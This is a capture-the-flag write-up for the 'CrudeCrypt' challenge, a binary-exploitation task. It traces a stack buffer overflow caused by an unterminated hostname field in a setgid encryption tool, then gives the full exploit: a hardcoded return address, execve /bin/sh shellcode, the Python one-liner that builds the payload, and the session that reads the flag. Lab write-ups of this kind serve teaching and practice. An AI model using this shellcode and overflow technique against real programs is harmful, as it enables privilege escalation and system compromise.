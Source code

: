 # CrudeCrypt Writeup
##### By sdamashek of TJ CSL

CrudeCrypt is an encryption/decryption program. After reading the code, we knew it uses AES128-CBC for the encryption and decryption. After staring at it for a little while, we saw no clear vulnerability with the actual encryption/decryption functions (`encrypt_buffer` and `decrypt_buffer`), so we concluded the vulnerability must be somewhere else.

The program takes an action from the command line (either `encrypt` or `decrypt`), and returns if the command is not a valid action. We noticed that the program drops privileges if the action is `encrypt`:

```c
if(strcmp(argv[1], "encrypt") == 0) {
    action = &encrypt_file;
    // You shouldn't be able to encrypt files you don't have permission to.
    setegid(getgid());
```

Thus, the vulnerability has to be in the `decrypt` action, because the file we have to become the `crudecrypt` group to read `flag.txt`. Because the `decrypt_file` function checks if the encrypted file is both a multiple of the block size (16) and has a magic number in the header of `0xc0dec0de`, we couldn't just decrypt `flag.txt` and encrypt the result to get the flag. After a bit of denial, we concluded the only way to read `flag.txt` was to get a shell, instead of tricking the program into decrypting it, then getting the flag from that result. It also helped that it was also a binary exploitation problem instead of crypto.

Something that we found really interesting early on was this function call in `decrypt_file`:

```c
if(!check_hostname(header)) {
    printf("[#] Warning: File not encrypted by current machine.\n");
}
// check_hostname:
bool check_hostname(file_header* header) {
    char saved_host[HOST_LEN], current_host[HOST_LEN];
    strncpy(saved_host, header->host, strlen(header->host));
    safe_gethostname(current_host, HOST_LEN);
    return strcmp(saved_host, current_host) == 0;
}
```

This function seemed rather pointless, as it doesn't error out. After experimenting with some different runs, we noticed it gave this error on some machines, even when it *was* encrypted on the current machine. It seemed pretty obvious at this point that something was up here, and that this is probably where the exploit should go. We looked at how the hostname was retrieved in the encryption function and placed in the encrypted file:

```c
file_header header;
init_file_header(&header, size);
safe_gethostname(header.host, HOST_LEN);
// safe_gethostname:
void safe_gethostname(char *name, size_t len) {
    gethostname(name, len);
    name[len-1] = '\0';
}
```

Okay, so `safe_gethostname` gets `HOST_LEN` (32) characters of the hostname and makes sure the end is terminated by a null byte. But, when decrypting the file, the program doesn't check that the hostname is null terminated. But how does that help us? Look at these lines in `check_hostname` specifically:

```c
char saved_host[HOST_LEN], current_host[HOST_LEN];
strncpy(saved_host, header->host, strlen(header->host));
```

Since `HOST_LEN` is only 32, if `header->host` is not null terminated, `strlen` will return longer than 32, in fact it will continue to the next null byte, and we have a buffer overflow. Lets look at how `header` is set in `decrypt_file`:

```c
if(decrypt_buffer(enc_buf, size, (char*)key, 16) != 0) {
    printf("There was an error decrypting the file!\n");
    return;
}

char* raw_buf = enc_buf;
file_header* header = (file_header*) raw_buf;

// file_header struct
typedef struct {
    unsigned int magic_number;
    unsigned long file_size;
    char host[HOST_LEN];
} file_header;
```

I modified `safe_gethostname` to always set `name` to 32 "k"s, without a null terminator, so that a buffer overflow would occur on decryption:

```c
void safe_gethostname(char *name, size_t len) {
    char *fakename = "kkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkk";
    memcpy(name, fakename, 32);
}
```

As shown above, the `strncpy` will now copy up to the next null byte onto the stack. If you're not familiar with how buffer overflows work, I recommend reading a tutorial before reading below, such as http://faculty.kfupm.edu.sa/ics/zhioua/Teaching/ICS444/BufferOverflowTutorial2012.pdf. Since the stack is executable, we can just put shellcode on the stack at this point, and use the normal method of jumping to it. The stack layout in `check_hostname` after `strncpy` is called looks like this:

```txt
  32 bytes     8 bytes    4 bytes    4 bytes
[saved_host] [empty space] [ebp] [return address]
```

In my exploit, I placed my shellcode after the return address. Because ASLR is disabled, I didn't have to use any fancy techniques, I could just find the address of the start of the shellcode and overwrite the return address with that address. I determined the second byte after the return address to be located at `0xffffd5d1` using gdb and some experimentation (second because it requires one byte of padding before the shellcode). Below is my payload:

```txt
 filler
aaaaaaaa

fake ebp
bbbb

return address (pointer to shellcode)
\xd1\xd5\xff\xff

padding for alignment
a

shellcode (execve /bin/sh)
\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68

terminating null byte
\00
```

I then encrypt this with my custom crude_crypt and decrypt with the supplied setgid crude_crypt in `/home/crudecrypt`:

```bash
pico46900@shell:~$ python -c 'print "aaaaaaaabbbb\xd1\xd5\xff\xffa\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\00"' > payload
pico46900@shell:~$ ./crude_crypt encrypt payload payload.enc
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: a

Got hostname into header, got 'kkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkk`�`'
=> Encrypted file successfully
pico46900@shell:~$ cd /home/crudecrypt
pico46900@shell:/home/crudecrypt$ ./crude_crypt decrypt ~/payload.enc ~/payload.out
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: a

$ cat /home/crudecrypt/flag.txt
writing_software_is_hard
```
